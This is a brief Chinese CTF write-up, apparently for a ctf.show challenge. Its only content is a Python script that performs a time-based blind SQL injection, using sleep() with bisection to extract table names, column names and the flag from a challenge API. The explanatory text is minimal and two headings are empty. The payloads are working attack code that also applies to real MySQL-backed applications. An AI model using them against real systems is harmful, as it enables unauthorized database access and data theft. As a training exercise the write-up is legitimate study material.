

# 知识点
# 思路
```bash
where id = from_base64($id);
```
对括号就进行闭合
```bash
import requests
import time
url = 'http://65aef695-f6a5-4013-90a9-a00ef634370b.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名
        # payload = {
        #     'ip': f"'') or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆列
        # payload = {
        #     'ip': f"'') or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxcc'),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆值
        payload = {
            'ip': f"'') or if(ascii(substr((select group_concat(flagaac) from ctfshow_flagxcc),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j

```

